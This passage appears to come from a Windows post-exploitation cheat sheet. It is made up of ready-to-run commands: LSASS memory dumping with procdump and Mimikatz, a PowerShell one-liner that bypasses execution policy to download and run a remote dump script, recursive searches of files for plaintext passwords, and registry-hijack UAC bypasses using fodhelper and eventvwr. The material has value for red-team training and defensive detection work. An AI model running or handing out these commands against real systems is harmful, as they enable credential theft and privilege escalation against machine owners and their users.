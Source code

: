 ### LSASS Memory Dump
```powershell
# Using Task Manager
# Right-click on lsass.exe process -> Create dump file

# Using procdump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Using Mimikatz (requires admin privileges)
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# PowerShell alternative
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); Get-Process lsass | Out-Minidump"
```

### Search for Credentials in Files
```powershell
# Find files containing password
findstr /si password *.txt *.ini *.config *.xml

# Search for specific patterns in all files
findstr /spin "password" *.*

# PowerShell search
powershell -ep bypass -c "Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.config,*.xml,*.ps1,*.bat -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'password' | Out-File C:\temp\found_passwords.txt"
```

## UAC Bypass Techniques

### Check UAC Settings
```powershell
# Check UAC level
REG QUERY HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
REG QUERY HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

### UAC Bypass Methods
```powershell
# Fodhelper method
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe" -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
Start-Process fodhelper.exe

# EventViewer method
reg add HKCU\Software\Classes\mscfile\shell\open\command /d "cmd.exe /c whoami > C:\Users\Public\whoami.txt" /f
eventvwr.exe
```
